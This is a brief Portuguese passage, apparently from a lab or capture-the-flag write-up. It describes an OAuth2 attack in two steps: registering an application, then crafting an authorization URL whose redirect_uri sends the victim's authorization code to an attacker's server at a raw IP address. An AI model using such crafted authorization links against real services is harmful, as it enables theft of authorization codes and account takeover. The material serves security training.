 [+] Criar uma aplicação com o OAuth2
https://www.oauth.com/oauth2-servers/accessing-data/create-an-application/

[+] Montar a URL de autorização com os dados da aplicação maliciosa e o redirect para o servidor do atacante
http://authorization-ptl-402e9b14-540bfe3a.libcurl.so/oauth/authorize?client_id=4be2b13be67ef60536963ccb21fd8658a4d355dc0179d1a49e76cbe194a154f0&redirect_uri=http%3A%2F%2F3.143.245.155%2F&response_type=code

